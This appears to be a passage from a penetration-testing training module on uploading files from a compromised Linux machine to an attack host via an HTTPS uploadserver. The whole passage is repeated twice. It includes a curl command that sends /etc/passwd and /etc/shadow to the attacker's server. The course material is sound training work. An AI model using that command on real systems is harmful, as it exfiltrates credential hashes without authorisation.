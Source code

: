 ## Upload Operations

There are also situations such as binary exploitation and packet capture analysis, where we must upload files from our target machine onto our attack host. The methods we used for downloads will also work for uploads. Let's see how we can upload files in various ways.

---

## Web Upload

As mentioned in the `Windows File Transfer Methods` section, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python `HTTP.Server` module, which includes a file upload page. For this Linux example, let's see how we can configure the `uploadserver` module to use `HTTPS` for secure communication.

The first thing we need to do is to install the `uploadserver` module.

#### Pwnbox - Start Web Server

```shell-session
pepedavidphone@htb[/htb]$ sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Now we need to create a certificate. In this example, we are using a self-signed certificate.

#### Pwnbox - Create a Self-Signed Certificate

```shell-session
pepedavidphone@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

#### Pwnbox - Start Web Server

```shell-session
pepedavidphone@htb[/htb]$ mkdir https && cd https
```

```shell-session
pepedavidphone@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.

#### Linux - Upload Multiple Files

```shell-session
pepedavidphone@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.## Upload Operations

There are also situations such as binary exploitation and packet capture analysis, where we must upload files from our target machine onto our attack host. The methods we used for downloads will also work for uploads. Let's see how we can upload files in various ways.

---

## Web Upload

As mentioned in the `Windows File Transfer Methods` section, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python `HTTP.Server` module, which includes a file upload page. For this Linux example, let's see how we can configure the `uploadserver` module to use `HTTPS` for secure communication.

The first thing we need to do is to install the `uploadserver` module.

#### Pwnbox - Start Web Server

```shell-session
pepedavidphone@htb[/htb]$ sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Now we need to create a certificate. In this example, we are using a self-signed certificate.

#### Pwnbox - Create a Self-Signed Certificate

```shell-session
pepedavidphone@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

#### Pwnbox - Start Web Server

```shell-session
pepedavidphone@htb[/htb]$ mkdir https && cd https
```

```shell-session
pepedavidphone@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.

#### Linux - Upload Multiple Files

```shell-session
pepedavidphone@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.